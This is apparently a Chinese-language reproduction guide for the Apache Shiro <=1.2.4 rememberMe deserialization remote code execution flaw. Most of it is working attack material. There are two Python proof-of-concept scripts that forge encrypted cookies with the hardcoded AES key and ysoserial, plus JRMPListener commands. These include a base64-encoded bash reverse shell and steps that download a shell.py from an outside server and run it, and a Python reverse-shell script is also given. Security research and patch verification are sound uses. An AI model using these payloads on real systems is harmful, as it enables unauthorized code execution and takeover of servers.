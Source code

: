 # Apache Shiro <=1.2.4 反序列化漏洞

### 一、漏洞简介

shiro默认使用了CookieRememberMeManager, 其处理cookie的流程是: 得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化.然而AES的密钥是硬编码的, 就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

### 二、漏洞影响

Apache Shiro <=1.2.4

### 三、复现过程

需要一个vps ip提供rmi注册表服务，此时需要监听vps的1099端口，复现中以本机当作vps使用

poc：


```python
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

此时在vps上执行：


```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 'curl 192.168.127.129:2345' //command可以任意指定
```

此时执行poc可以生成rememberMe的cookie：

![](images/15889403688475.png)


此时burp发送payload即可，此时因为poc是curl，因此监听vps的2345端口：

![](images/15889403785836.png)


此时发送payload即可触发反序列化达到rce的效果

![](images/15889403867290.png)


如果要反弹shell，此时vps上执行：


```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyNy4xMjkvMjM0NSAwPiYxIA==}|{base64,-d}|{bash,-i}'
```

其中反弹shell执行的命令通过base64编码一次

此时vps监听2345端口，并且生成新的payload进行rememberMe的cookie替换

![](images/15889404107857.png)


![](images/15889404147079.png)


![](images/15889404189524.png)


**写webshell/反弹shell 补充**

默认shiro的commons-collections版本为3.2.1，并且在ysoserial里并没有3.2.1的版本，我们利用3.2.1的payload，结果报如下错误：


```
java.lang.ClassNotFoundException: Unable to load ObjectStreamClass [[Lorg.apache.commons.collections.Transformer;: static final long serialVersionUID = -4803604734341277543L;]: 
```

报错的原因是因为：

Shiro resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，而ClassLoader.loadClass不支持装载数组类型的class。

当然为了证明反序列化漏洞确实存在，我们可以利用ysoserial的URLDNS gadget进行验证，参数改成dns地址，测试能收到DNS请求。不过Java默认有TTL缓存，DNS解析会进行缓存，所以可能会出现第一次收到DNS的log，后面可能收不到的情况。URLDNS gadget不需要其他类的支持，它的Gadget Chain：


```
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

但是可以利用ysoserial的JRMP。具体利用过程如下：

在有外网的服务器下监控一个JRMP端口，wget为要执行的命令。


```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'curl www.baidu.com'
```

此时执行poc，已经执行了`curl www.baidu.com`命令。


```python
#coding: utf-8

import os
import re
import base64
import uuid
import subprocess
import requests
from Crypto.Cipher import AES

JAR_FILE = '/Users/hackedcomcn/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'


def poc(url, rce_command):
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE)  # 生成payload
        print payload
        print payload.decode()
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10)  # 发送验证请求
        print r.text
    except Exception, e:
        print(e)
        pass
    return False


def generator(command, fp):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    popen = subprocess.Popen(['java', '-jar', fp, 'JRMPClient', command],
                             stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


poc('http://127.0.0.1:8080', '服务器ip:12345')
```

不过如果想达到命令执行的目标，可以分别执行两条命令：


```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'wget www.0-sec.org/shell.py -O /tmp/shell.py'

java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'python /tmp/shell.py'
```

shell.py为反弹shell的代码：


```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("服务器ip",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

参考链接

https://xz.aliyun.com/t/6493#toc-2